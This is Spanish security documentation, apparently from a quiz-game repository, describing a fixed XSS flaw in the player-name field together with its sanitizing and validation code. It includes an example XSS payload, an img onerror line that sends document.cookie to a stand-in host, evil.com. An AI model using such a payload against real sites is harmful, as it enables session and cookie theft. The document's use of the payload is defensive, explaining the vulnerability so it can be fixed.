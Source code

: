 # 🔒 Documentación de Seguridad - ¿Quién quiere ser Proactivo?

## Resumen de Vulnerabilidades Corregidas

Este documento detalla las vulnerabilidades de seguridad identificadas y las medidas implementadas para mitigarlas.

---

## 🚨 Vulnerabilidades Identificadas y Corregidas

### 1. **XSS (Cross-Site Scripting) en Nombre del Jugador**

**Severidad:** 🔴 CRÍTICA

**Ubicación Original:** `script.js:228`, `script.js:169`

**Problema:**
```javascript
// ANTES (VULNERABLE)
currentPlayerName = playerNameInput.value.trim();
resultMessage.textContent = `¡Buen trabajo, ${currentPlayerName}!`;
```

Un atacante podría ingresar:
```html
<script>alert('XSS')</script>
<img src=x onerror="fetch('https://evil.com?cookie='+document.cookie)">
```

**Solución Implementada:**
- ✅ Función `sanitizeHTML()` que escapa caracteres HTML peligrosos
- ✅ Función `validatePlayerName()` con validación de patrón regex
- ✅ Límite de 50 caracteres
- ✅ Solo permite: letras (incluyendo acentos), números, espacios, guiones, puntos y guiones bajos
- ✅ Validación en tiempo real con feedback visual

```javascript
// DESPUÉS (SEGURO)
function sanitizeHTML(text) {
    const div = document.createElement('div');
    div.textContent = text;
    return div.innerHTML;
}

function validatePlayerName(name) {
    const trimmed = name.trim();
    if (trimmed.length > 50) {
        return { isValid: false, error: 'Máximo 50 caracteres' };
    }
    const safePattern = /^[a-zA-ZáéíóúÁÉÍÓÚñÑ0-9\s\-_.]+$/;
    if (!safePattern.test(trimmed)) {
        return { isValid: false, error: 'Caracteres no permitidos' };
    }
    return { isValid: true, sanitized: sanitizeHTML(trimmed) };
}
```

---
